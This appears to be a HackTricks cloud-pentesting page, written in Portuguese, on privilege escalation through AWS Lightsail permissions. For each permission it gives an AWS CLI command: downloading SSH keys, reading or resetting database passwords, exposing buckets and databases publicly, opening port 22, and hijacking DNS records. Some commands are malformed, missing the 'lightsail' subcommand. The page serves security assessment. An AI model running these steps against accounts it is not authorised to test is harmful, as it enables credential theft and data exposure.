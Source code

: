 # AWS - Lightsail Privesc

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Lightsail

Para mais informações sobre Lightsail, consulte:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
É importante notar que o Lightsail **não usa as funções IAM pertencentes ao usuário**, mas sim a uma conta gerenciada pela AWS, então você não pode abusar deste serviço para privesc. No entanto, **dados sensíveis** como código, chaves de API e informações de banco de dados podem ser encontrados neste serviço.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Esta permissão permitirá que você obtenha as chaves SSH para acessar as instâncias:
```
aws lightsail download-default-key-pair
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:GetInstanceAccessDetails`

Esta permissão permitirá que você gere chaves SSH para acessar as instâncias:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:CreateBucketAccessKey`

Esta permissão permitirá que você obtenha uma chave para acessar o bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro do bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Esta permissão permitirá que você obtenha as credenciais para acessar o banco de dados:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:UpdateRelationalDatabase`

Esta permissão permitirá que você altere a senha de acesso ao banco de dados:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
```markdown
Se o banco de dados não for público, você também pode torná-lo público com estas permissões com
```
{% endcode %}

Se o banco de dados não for público, você também pode torná-lo público com estas permissões com

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impacto Potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:OpenInstancePublicPorts`

Esta permissão permite abrir portas para a Internet
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:PutInstancePublicPorts`

Esta permissão permite abrir portas para a Internet. Observe que a chamada fechará qualquer porta aberta que não esteja especificada nela.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impacto Potencial:** Acesso a portas sensíveis.

### `lightsail:SetResourceAccessForBucket`

Esta permissão permite dar a uma instância acesso a um bucket sem quaisquer credenciais extras

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impacto Potencial:** Acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateBucket`

Com essa permissão, um atacante poderia conceder ao seu próprio AWS account acesso de leitura aos buckets ou até mesmo tornar os buckets públicos para todos:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impacto Potencial:** Acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateContainerService`

Com essas permissões, um atacante poderia conceder acesso a ECRs privados a partir do serviço de containers.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impacto Potencial:** Obter informações sensíveis de ECR privado

### `lightsail:CreateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e direcioná-lo para seu próprio endereço IP (tomada de subdomínio), ou criar um registro SPF que lhe permita falsificar e-mails do domínio, ou até mesmo definir o endereço IP principal do domínio para o seu próprio.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Tomada de um domínio

### `lightsail:UpdateDomainEntry`

Um atacante com essa permissão poderia criar um subdomínio e direcioná-lo para o seu próprio endereço IP (tomada de subdomínio), ou criar um registro SPF que lhe permita forjar e-mails do domínio, ou até mesmo definir o domínio principal para o seu próprio endereço IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impacto Potencial:** Tomada de um domínio

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver a sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
